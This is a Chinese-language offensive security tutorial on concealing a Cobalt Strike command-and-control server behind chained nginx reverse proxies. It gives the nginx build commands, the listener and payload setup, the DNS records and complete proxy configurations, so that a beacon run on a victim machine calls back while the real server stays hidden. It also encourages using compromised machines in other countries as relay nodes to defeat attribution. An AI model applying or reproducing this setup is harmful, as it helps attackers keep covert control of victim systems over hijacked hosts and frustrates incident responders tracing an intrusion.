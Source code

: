 ```yaml
---
title: 尝试将 C2 隐匿于多级 nginx 反向代理
id: zhfly3648
---
```


# 尝试将 C2 隐匿于多级 nginx 反向代理

## 关于利用多级 nginx 反代实现 beacon 上线的大致思路拓扑

![image](../img/1fa9d4d2abee868405d174c96e6c2d36.png)

> 大致思路是这样,首先,我们会用一个 CS 的外部 http 监听器先把流量弹到第一层的 nginx 反代理节点上,因为事先已经在 mail 这台机器上做好了反代配置,而这个反代配置里实际指向的是我们第二层 nginx 反代节点的域名,所以当回连的流量一过来就会直接被抛到第二层的 nginx 反代节点上,由于又事先在第二层反代节点上也做好了反代配置,不过这次配置里指向的并不是别的地方,而是我们真实的 C2 服务器域名,所以最终导致的结果就是,目标机器回连流量在通过众多的 nginx 反代节点之后正常上线,大家自己实际操作过程中,务必要先对着拓扑理解清楚再动手,不然你可能会觉得有些乱,其实,说实话,没啥技术含量,完全都是些基础的堆砌加灵活应用而已,来看实际操作吧

### 0x01 首先,同时在两台 nginx 反代节点的 vps 机器上编译安装好 nginx,过程非常简单,如下

```
# apt-get install build-essential libtool libpcre3 libpcre3-dev zlib1g-dev openssl -y
# useradd -s /sbin/nologin -M nginx 切记不要以高权限起服务
# wget http://nginx.org/download/nginx-1.14.1.tar.gz
# tar xf nginx-1.14.1.tar.gz
# cd nginx-1.14.1
# ./configure --prefix=/usr/local/nginx-1.14.1 --user=nginx --group=nginx --with-http_ssl_module --with-http_stub_status_module --with-http_gzip_static_module
# make && make install
# echo $? 
```

![image](../img/bc7f2057ea91569d068f72538029cba0.png)

![image](../img/8f85d5b90e3e31ae44610aa7d830ec4e.png)

### 0x02 接着,再回到自己本地的 linux 机器上

> 启动 CobalStrike 客户端,连到自己的 C2 服务器,然后创建两个 常规 HTTP 协议,端口为 80 [ 注: 两个监听器的协议必须匹配 ] 的监听器,一个就是反向监听器 [ 特别注意下这个反连域名,是真正的 C2 服务器域名,即 oa.finalc2.com,也就是等会儿要从第二层 nginx 反代节点往后抛的域名 ]

![image](../img/1685aa74e04f268767d72a60452855aa.png)

另外再创建一个相同协议端口的外部监听器,注意,这个外部监听器的回连域名要写第一层 nginx 反代节点的域名[ 即 mail.first.com ],因为回连的流量会首先被弹到这里,然后再通过层层反代直至抛到后端真实的 C2 服务器,最后,再用这个外部监听器创建一个 exe payload,等会儿要把它丢到目标机器执行

![image](../img/ab223e7b17408f2f31d9d24c0012f262.png)

> 如下,两个监听器准备就绪

![image](../img/1e9a82782d247c0724d84e3a8a911226.png)

### 0x03 由于此处全程都是用域名在操作,所以务必请提前配置好所有域名解析,只需添加一条对应的 A 记录 即可

```
mail.first.com 21.67.38.47 
```

![image](../img/ae94dc1da273916b87763c5a8cce6938.png)

```
host.second.com 187.50.112.135 
```

![image](../img/c318a5b5282a60f703dc00f34066cac3.png)

```
oa.finalc2.com 208.36.69.66 
```

![image](../img/7a3041621964c1f5381039cf11d3e942.png)

### 0x04 开始配置第一层 nginx 反代节点

也就是在 21.67.38.47 这台机器上,配置过程非常简单,如下

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [host.second.com:80](http://host.second.com:80); 到达本机的所有 80 端口的流量都会被后抛到这个域名上

} `server {

listen 80;

server_name [host.second.com](http://host.second.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 配置完成后,务必要记得立即重启 nginx 服务使配置生效

```
# ifconfig | grep 'inet addr'
# /usr/local/nginx/sbin/nginx -s quit
# /usr/local/nginx/sbin/nginx 
```

![image](../img/cc22810540dc147f6c51c308f0e4fa68.png)

### 0x05 开始配置第二层 nginx 反代节点

> 也就是在 187.50.112.135 这台机器上,过程基本同上,只不过这次是把流量直接抛给了后端的真实 C2 服务器

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [oa.finalc2.com:80](http://oa.finalc2.com:80); 真实 C2 域名

} `server {

listen 80;

server_name [oa.finalc2.com](http://oa.finalc2.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 之后,同样务必要记得立即重启 nginx 服务使配置生效

![image](../img/dd909316c373d50b097dc3cece59c749.png)

> 此时,当我们回到目标机器上正常执行 payload 后,便会看到 beacon 正常上线,如下,从目标机器的网络连接中也不难发现,其实,这个连接显示的 ip 也只是我们上面第一层 nginx 反代节点的ip,而真实的 C2 服务器却被隐藏在了后端好几层,再加上如果中间的 nginx 反代节点全部都是直接拿不同国家地域的肉鸡搞的[高度匿名化],这无疑再一次加大了对方的溯源难度和成本

![image](../img/31e4521656fe8d723b3bb2f50a91f9c2.png)

> 另外,从 CS web log 里我们也清晰的看到,所有请求都是从 187.50.112.135 [即 host.second.com 第二层 nginx 反代节点 ]这台机器过来的,至此,也说明我们的多级反代确实是成功有效的

![image](../img/d92138dbecded0d29dcef34281ebf24a.png)

## 小结:

至此为止,关于如何利用多级 nginx 反代,来实现 C2 的深度隐藏基本也就说完了,多次实战检验,传输确实挺稳定的,说实话,没太多技术含量,还是那句话,都是些非常简单的基础配合利用,文章初衷也是为了给弟兄们提供一个简单易用的 demo,其实,在实战中,你完全可以把这个搞的非常的复杂,比如,利用一些比较稳定的肉鸡群做成一个非常庞大的全球反代网,这些就要靠弟兄们自己思考了,ok,再多的就不说了,其实话说到这儿,理解的弟兄,应该也都早已经理解了,不过退一步来讲,这样隐藏 C2 其实还是不够彻底,因为,毕竟我们此时的 C2 还是直接被暴露在公网中,既然是在公网,那就肯定有被扫到或者反捅的风险,比如,你的 C2 直接用的 CobaltStrike 这种东西来搞的,万一哪天 CS 再爆洞,你可能又是第一批受害者,所以...弟兄们应该都能理解了,在下个章节中我们将会简单介绍,如何用避免直接把 C2 暴露在公网中的方式去隐藏,并实现本地 beacon 上线,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运